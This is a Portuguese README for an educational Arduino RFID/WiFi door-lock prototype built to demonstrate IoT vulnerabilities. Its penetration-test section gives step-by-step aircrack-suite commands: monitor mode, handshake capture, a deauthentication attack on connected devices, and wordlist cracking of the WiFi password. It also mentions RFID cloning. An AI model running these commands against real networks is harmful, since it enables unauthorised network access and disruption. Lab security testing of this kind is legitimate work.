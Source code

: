# Arduino-DoorLock


O projeto apresentado no presente repositório se trata de um sistema de controle de acesso físico utilizando o microcontrolador Arduino. O protótipo final simula o funcionamento de um mecanismo para trancar e destrancar portas de forma eletrônica, controlado via Cartão RFID e WiFi, onde, caso o acesso seja bem-sucedido, um Servo Motor é movimentado liberando a abertura da porta.

A premissa ao simular - o que poderia ser o controle de acesso físico de um ambiente real - é evidenciar, analisar e explorar as possíveis vulnerabilidades que podem ser encontradas em implementações inseguras de redes e dispositivos IoT. Para tanto, neste projeto, são executados testes de segurança que exemplificam de forma semelhante a realidade os ataques cibernéticos mais recorrentes, conforme aponta o relatório da [“OWASP Top 10 IoT”](https://owasp.org/www-pdf-archive/OWASP-IoT-Top-10-2018-final.pdf), de 2018.


## Tabela de Conteúdos
* [Sobre](#arduino-doorlock)
* [Tabela de Conteúdos](#tabela-de-conteúdos)
* [Pré-Requisitos](#pré-requisitos)
* [Modo de Uso](#modo-de-uso)
* [Testes de Invasão](#testes-de-invasão)
* [Autores](#autores)

## Pré-Requisitos
Nesta seção são apresentados todos os pré requisitos necessários para reproduzir o protótipo do [DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock)

### Materiais
Para montagem desse projeto serão necessários os seguintes componentes:
* [Arduino UNO](https://www.filipeflop.com/produto/placa-uno-r3-cabo-usb-para-arduino/)
* [Protoboard 400 pontos](https://www.filipeflop.com/produto/protoboard-400-pontos/#tab-description)
* [Servo Motor](https://www.filipeflop.com/produto/micro-servo-sg92r-9g-towerpro/)
* [Módulo leitor RFID MFRC522](https://www.filipeflop.com/produto/kit-modulo-leitor-rfid-mfrc522-mifare/?utm_source=google&utm_medium=organic&utm_campaign=shopping&utm_content=surfaces_across_google)
* [Ethernet Shield W5100 para Arduino](https://www.filipeflop.com/produto/ethernet-shield-w5100-para-arduino/)
* [Cabo de Rede](https://www.filipeflop.com/produto/cabo-de-rede-conector-rj45-15m/)
* [Sensor Hall Magnético KY-003](https://www.filipeflop.com/produto/sensor-hall-ky-003/)
* [LED Verde](https://www.baudaeletronica.com.br/led-difuso-5mm-verde.html)
* [LED Vermelho](https://www.baudaeletronica.com.br/led-difuso-5mm-vermelho.html)
* [2 x Resistor 220Ω](https://www.filipeflop.com/produto/resistor-220%cf%89-14w-x20-unidades/)
* Jumpers

### Montagem
A montagem desde projeto segue o sketch de demonstração. Lembrando que o Ethernet Shield deve ser conectado sobre o Arduino.
<details>
  <summary>Clique para visualizar o sketch</summary>
  <img alt="DoorLock Sketch" src="https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/Sketch/door_lock_sketch.png" height="700px">
</details>

### Softwares
Os pré requisitos a nível de software reproduzir a aplicação:
* [Arduino IDE](https://www.arduino.cc/en/software)
* [Biblioteca](https://www.arduino.cc/reference/en/libraries/mfrc522/) (Passo a passo: [Adicionar bibliotecas na IDE do arduino](https://www.robocore.net/tutoriais/adicionando-bibliotecas-na-ide-arduino))
* [Código-fonte do DoorLock](https://github.com/iuribpmoro/Arduino-DoorLock/blob/main/DoorLock/DoorLock.ino)

Por fim, o arduino deve ser conectado via USB com o computador, o código deve ser carregado na placa e o ambiente estará pronto.
Caso desejar, o mesmo poderá ser anexado a uma maquete.

## Modo de Uso

## Testes de Invasão

Primeiramente, demonstra-se o funcionamento de um ataque físico de cópia de conteúdos em tags RFID, por meio da utilização de um
segundo arduino configurado para atingir esse objetivo. Em segundo lugar, exemplifica-se um ataque de força bruta para a quebra
da senha da rede WiFi na qual o dispositivo está conectado, descrevendo os riscos de utilizar senhas fracas e previsíveis.

Por meio da utilização do script [Automap](https://github.com/iuribpmoro/Automap) que realizam o reconhecimento, scanning e enumeração da rede, descobre-se, por fim, como operar a fechadura por meio de requisições web, finalizando o processo de ataque.

### Roteiro dos Ataques
#### Setup da Interface
- Iniciar modo de monitoramento da interface WiFi:
```bash
sudo airmon-ng start wlan0
```
- Verifique as interfaces wireless:
```bash
sudo iwconfig
```
#### 
- Realize o scan das redes próximas e tome nota do BSSID e Channel da rede alvo:
```bash
sudo airodump-ng wlan0mon
```
- Realize o scan da rede alvo, tomando nota do MAC dos dispositivos conectados e salvando os handshakes a serem capturados:
```bash
sudo airodump-ng -c <CANAL_DA_REDE> --bssid <BSSID_DA_REDE> -w <PREFIXO_DO_ARQUIVO_DE_OUTPUT> wlan0mon
```
- Em outro terminal, enquanto o outro roda o comando anterior, expulse os hosts da rede por meio de um ataque de deauthentication:
```bash
sudo aireplay-ng -0 2 -a <BSSID_DA_REDE> -c <MAC_DO_DISPOSITIVO>
```
- Realize um ataque de força bruta nos pacotes capturados para tentar realizar a quebra da senha:
```bash
sudo aircrack-ng <ARQUIVO>.cap -w <WORDLIST>
```

## Autores
### Gabrieli Silva
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/gabrieli-silva-435627164/)
### Iuri Moro
[![Gmail Badge](https://img.shields.io/badge/Gmail-D14836?style=for-the-badge&logo=gmail&logoColor=white
)](mailto:iuribpmoro@gmail.com)[![Linkedin Badge](https://img.shields.io/badge/linkedin%20-%230077B5.svg?&style=for-the-badge&logo=linkedin&logoColor=white)](https://www.linkedin.com/in/iuribpmoro/)
